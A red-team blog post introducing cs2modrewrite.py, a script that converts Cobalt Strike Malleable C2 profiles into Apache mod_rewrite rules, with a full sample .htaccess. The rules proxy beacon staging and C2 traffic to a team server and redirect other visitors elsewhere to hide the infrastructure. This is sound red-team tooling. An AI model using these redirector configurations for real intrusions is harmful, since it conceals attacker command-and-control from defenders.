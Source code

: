 # Automating Apache mod_rewrite and Cobalt Strike Malleable C2 Profiles

**Joe Vest | February 1, 2018 | Tweet This Post: [:fa-twitter:](https://twitter.com/intent/tweet?url=http://threatexpress.com/blogs/2018/02/automating-cobalt-strike-profiles-apache-mod_rewrite-htaccess-files-intelligent-c2-redirection/&text=Automating Cobalt Strike profiles with Apache mod_rewrite for intelligent redirection)**

![][1]

This post describes a script I created to convert a Cobalt Strike Malleable C2 profile to corresponding mod_rewrite rules to enable intelligent HTTP proxying for redirection of C2 traffic.  The script automates the [process][2] described by well known redteamer and now co-worker – Jeff Dimmock ([@bluscreenofjeff][3]). Intelligent use of C2 redirectors is core to a mature C2 architecture that can withstand some gentle investigation and prodding. Developing Cobalt Strike compatible mod_rewrite rules to redirect traffic is not incredibly difficult, but there are a few Apache "gotchas" and the process can be error prone when dealing with multiple C2 profiles. Automation improves consistency and reduces the time needed to spin-up, test, and troubleshoot a unique and layered C2 infrastructure. It is always nice to start from a known good.

## Highlights of cs2modrewrite.py

* Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string. **Result**: Only requests to valid C2 URIs with a specified UA string will be proxied to the Team Server by default.
* Uses a custom Malleable C2 profile to build a _.htaccess_ file with corresponding mod_rewrite rules
* Supports the most recent Cobalt Strike 3.10 profile features
* HTTP or HTTPS proxying to the Cobalt Strike Team Server
* HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests

## Quick Start

## Usage

The script can be found at: 

### Arguments

```    
cs2modrewrite.py [-h] [-i INPUTFILE] [-c C2SERVER] [-d DESTINATION]

Converts Cobalt Strike profiles to Apache mod_rewrite .htaccess file format by
using the User-Agent and URI Endpoint to create rewrite rules. Make sure the
profile passes a c2lint check before running this sript.

optional arguments:
    -h, --help      show this help message and exit
    -i INPUTFILE    C2 Profile file
    -c C2SERVER     C2 Server (http://teamserver)
    -d DESTINATION  (Optional) Redirect to this URL (http://google.com)
```

### Example Output
    
```    
#### Save the following as .htaccess in the root web directory

########################################
## .htaccess START 
RewriteEngine On

## (Optional)
## Scripted Web Delivery 
## Uncomment and adjust as needed
#RewriteCond %{REQUEST_URI} ^/css/style1.css?$
#RewriteCond %{HTTP_USER_AGENT} ^$
#RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## Default Beacon Staging Support (/1234)
RewriteCond %{REQUEST_URI} ^/..../?$
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_08"
RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html
## Profile URIs
RewriteCond %{REQUEST_URI} ^(/include/template/isx.php.*|/wp06/wp-includes/po.php.*|/wp08/wp-includes/dtcla.php.*|/modules/mod_search.php.*|/blog/wp-includes/pomo/src.php.*|/includes/phpmailer/class.pop3.php.*|/api/516280565958.*|/api/516280565959.*)$
## Profile UserAgent
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_08"
RewriteRule ^.*$ "https://TEAMSERVER%{REQUEST_URI}" [P,L]

## Redirect all other traffic here
RewriteRule ^.*$ HTTPS://GOHERE/? [L,R=302]

## .htaccess END
########################################
```

## What does this .htaccess do?

### Staging

When Apache receives an HTTP request with the User-Agent Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_080 and a 4 character URI, it proxies the traffic to the teamserver.

### C2 Traffic

When Apache receives an HTTP request with the User-Agent Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_080 and one of the following URIs 

`(/include/template/isx.php._|/wp06/wp-includes/po.php._|/wp08/wp-includes/dtcla.php,/modules/mod_search.php,/blog/wp-includes/pomo/src.php,/includes/phpmailer/class.pop3.php,/api/516280565958,/api/516280565959)`

it proxies the traffic to the teamserver.

### Catch All

Any traffic that doesn't match a rule redirects the request using an HTTP 302

## Summary

**TLDR** The python script _cs2modrewrite.py_ automates the process of creating a Malleable C2 compatible .htaccess file for intelligent redirection with Apache mod_rewrite. Try it out and feel free to give feedback and suggestions at [@joevest][4] on Twitter and on the ThreatExpress GitHub [repo][5].

For more details on developing C2 architecture, check out the Red Team Infrastructure [Wiki][6].

## References

- https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
- https://twitter.com/bluscreenofjeff
- https://github.com/threatexpress/cs2modrewrite
- https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki

  
[1]: /img/cs2modrewriteargs.png
[2]: https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
[3]: https://twitter.com/bluscreenofjeff
[4]: https://www.twitter.com/joevest
[5]: https://github.com/threatexpress/cs2modrewrite
[6]: https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki

  